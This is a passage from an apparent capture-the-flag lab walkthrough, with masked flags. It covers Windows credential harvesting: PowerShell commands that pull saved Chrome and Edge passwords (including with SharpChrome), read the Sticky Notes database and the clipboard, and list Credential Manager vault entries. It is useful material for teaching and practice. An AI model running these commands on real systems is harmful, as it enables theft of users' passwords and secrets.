 **FLAG{N***************6}** - Found in browser saved passwords

**Alternative Browser Extraction:**
```powershell
# Using SharpChrome (if you can compile/upload)
.\SharpChrome.exe logins

# Manual Chrome extraction
$dataPath = "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data"
$query = "SELECT origin_url, username_value, password_value FROM logins"
# Need to decrypt using DPAPI

# Edge passwords
$edgePath = "$env:LOCALAPPDATA\Microsoft\Edge\User Data\Default"
```

### Step 4.2: Application Credentials

```powershell
# Sticky Notes (Windows 10)
Get-ChildItem "$env:LOCALAPPDATA\Packages\Microsoft.MicrosoftStickyNotes*\LocalState"
type "$env:LOCALAPPDATA\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite"

# Read Sticky Notes database
# Contains: FLAG{W***************3}
```

```powershell
# Clipboard content
Get-Clipboard
Add-Type -AssemblyName System.Windows.Forms
[System.Windows.Forms.Clipboard]::GetText()
```

**FLAG{K***************8}** - Found in clipboard

### Step 4.3: Credential Manager

```powershell
# Windows Credential Manager
cmdkey /list
vaultcmd /listcreds:"Windows Credentials"

# PowerShell method
[Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$vault = New-Object Windows.Security.Credentials.PasswordVault
$vault.RetrieveAll()
```

## Phase 5: Privilege Escalation

### Step 5.1: Service Enumeration
